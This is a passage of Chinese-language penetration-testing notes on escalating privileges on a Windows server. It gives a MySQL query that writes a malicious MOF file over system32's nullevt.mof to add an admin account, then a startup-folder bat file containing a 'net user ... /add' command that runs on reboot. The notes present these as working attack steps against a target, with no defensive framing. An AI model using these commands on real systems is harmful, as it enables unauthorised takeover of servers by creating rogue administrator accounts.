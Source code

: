 ##### 提权

使用sql语句将系统当中默认的nullevt.mof给替换掉，让系统执行我们这个恶意的mof文件，来添加admin账户。

```mysql
select load_file(‘E:/phpStudy/PHPTutorial/WWW/74/X/adduser.mof’) into dumpfile ‘c:/windows/system32/wbem/mof/nullevt.mof’;
```

![](image60/60-19.png)

过一会儿后，查看目标服务器用户，发现admin账户被创建

### 启动项提权

- **（基于配合操作系统自启动）**
- 导出自定义可执行文件到启动目录配合重启执行
- 将创建好的后门或执行文件进行服务器启动项写入，配合重启执行！

##### 上传bat文件

将创建好的bat文件进行服务器启动项写入，配合重启执行！
bat文件

```
@echo
net user xxx 123!@#ws /add
```
